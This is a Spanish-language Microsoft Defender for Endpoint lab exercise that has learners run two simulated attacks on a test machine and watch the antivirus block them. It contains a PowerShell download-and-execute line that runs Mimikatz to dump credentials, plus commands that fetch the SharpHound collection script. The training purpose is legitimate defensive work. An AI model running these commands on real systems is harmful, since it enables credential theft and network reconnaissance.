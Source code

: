 # Módulo 2: mitigación de amenazas con Microsoft Defender para puntos de conexión

**Nota**: la finalización correcta de esta demostración depende de completar todos los pasos del [documento de requisitos previos](00-prerequisites.md).

## Ataques simulados

En esta tarea, ejecutará dos ataques simulados para explorar las funcionalidades de Microsoft Defender para punto de conexión.

1. Si aún no está en el portal de Microsoft Defender XDR en el explorador, vaya a Microsoft Defender XDR en (https://security.microsoft.com) ha iniciado sesión como administrador para el inquilino.

Ejecutará los ataques *simulados* mediante *PowerShell* en *WIN1* para explorar las funcionalidades de Microsoft Defender para punto de conexión.

`Attack 1: Mimikatz - Credential Dumping`

1. En la máquina *WIN1*, escriba **Comando** en la barra de búsqueda y seleccione **Ejecutar como administrador**.

1. Copie y pegue el siguiente comando en el **Administrador: Ventana del símbolo del sistema** y presione **Entrar** para ejecutarlo.

    ```CommandPrompt
    powershell.exe "IEX (New-Object Net.WebClient).DownloadString('#{mimurl}'); Invoke-Mimikatz -DumpCreds"
    ```

1. Debería ver un mensaje indicando *Acceso denegado* y un mensaje emergente de `Microsoft Defender Antivirus, Windows Security Virus and threats protection` mostrando *Amenazas encontradas*.

1. Salga del **Administrador: Ventana del símbolo del sistema** escribiendo **salir** y presionando **Entrar**.

`Attack 2: Bloodhound - Collection`

1. En la máquina *WIN1*, escriba **PowerShell** en la barra de búsqueda, seleccione **Windows PowerShell** y seleccione **Ejecutar como administrador**.

1. Copie y pegue los siguientes comandos en el **Administrador: Ventana de Windows PowerShell** y presione **Entrar** para ejecutarlo.

    ```PowerShell
    New-Item -Type Directory "PathToAtomicsFolder\..\ExternalPayloads\" -ErrorAction Ignore -Force | Out-Null
    Invoke-WebRequest "https://raw.githubusercontent.com/BloodHoundAD/BloodHound/804503962b6dc554ad7d324cfa7f2b4a566a14e2/Ingestors/SharpHound.ps1" -OutFile "PathToAtomicsFolder\..\ExternalPayloads\SharpHound.ps1"
    ```

    >**Nota:** Se recomienda copiar, pegar y ejecutar los comandos de uno en uno. Abra *Bloc de notas* y copie los comandos en un archivo temporal para hacerlo. El primer comando crea una carpeta denominada *ExternalPayloads* en la misma carpeta donde se encuentra la carpeta *Atomic Red Team*. El segundo comando descarga el archivo *SharpHound.ps1* del repositorio de GitHub *BloodHound* y lo guarda en la carpeta *ExternalPayloads*.

1. Debería ver un mensaje emergente en `Windows Security Virus and threats protection` el que se muestran las *Amenazas encontradas*.

1. Copie y pegue el siguiente comando en el **Administrador: Ventana de Windows PowerShell** y presione **Entrar** para ejecutarlo.

    ```PowerShell
    Test-Path "PathToAtomicsFolder\..\ExternalPayloads\SharpHound.ps1"
    ```

1. Si la salida fuera *True*, el archivo de carga de malware no se habrá quitado por el Antivirus de Microsoft Defender. Si la salida fuera *False*, el archivo de carga de malware se habrá quitado por el Antivirus de Microsoft Defender. Use la tecla de dirección hacia arriba para repetir el comando hasta que la salida sea *False*.

## Has completado la demostración
